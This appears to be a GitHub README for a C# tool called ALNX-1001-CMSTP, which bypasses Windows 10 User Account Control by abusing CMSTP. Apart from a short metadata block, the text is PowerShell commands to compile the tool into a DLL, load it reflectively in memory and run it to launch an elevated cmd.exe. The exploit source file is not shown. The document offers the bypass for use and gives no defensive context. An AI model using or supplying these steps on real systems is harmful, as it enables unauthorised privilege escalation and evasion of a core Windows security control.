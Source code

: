 # ALNX-1001-CMSTP
Win-UAC-Bypass ALNX-1001-CMSTP

```yaml
TargetOS: Win10
TestedOn: 2004 SO 19041.685
Language: C#/.NET 6.1
Patch: n/a
Danger: 4
Classification: ALNX-1001-CMSTP```

**_Build_**
```powershell
Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\ALNX1001-Example.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "ALNX-1001-CMSTP.dll"```

**_Load_**
```powershell
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\ALNX-1001-CMSTP.dll"))```

**_Run_**
```powershell
[CMSTPBypass]::Execute("C:\Windows\System32\cmd.exe")```

